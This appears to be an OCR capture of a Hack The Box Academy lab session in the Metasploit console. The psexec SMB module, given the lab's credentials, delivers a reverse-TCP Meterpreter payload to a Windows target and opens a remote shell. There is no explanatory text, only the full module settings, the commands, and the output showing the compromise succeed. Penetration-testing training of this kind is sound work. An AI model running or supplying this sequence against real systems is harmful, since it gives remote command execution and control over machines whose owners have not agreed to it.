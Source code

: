 ```
Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set RHOST 10.129.237.181
RHOST => 10.129.237.181
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.15.92
LHOST => 10.10.15.92
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.15.92:4444 
[*] 10.129.237.181:445 - Connecting to the server...
[*] 10.129.237.181:445 - Authenticating to 10.129.237.181:445 as user 'htb-student'...
[*] 10.129.237.181:445 - Selecting PowerShell target
[*] 10.129.237.181:445 - Executing the payload...
[+] 10.129.237.181:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.129.237.181
[*] Meterpreter session 1 opened (10.10.15.92:4444 -> 10.129.237.181:49974) at 2023-01-31 14:14:03 -0500

meterpreter > shell
Process 3348 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18363.1854]
(c) 2019 Microsoft Corporation. All rights reserved.

```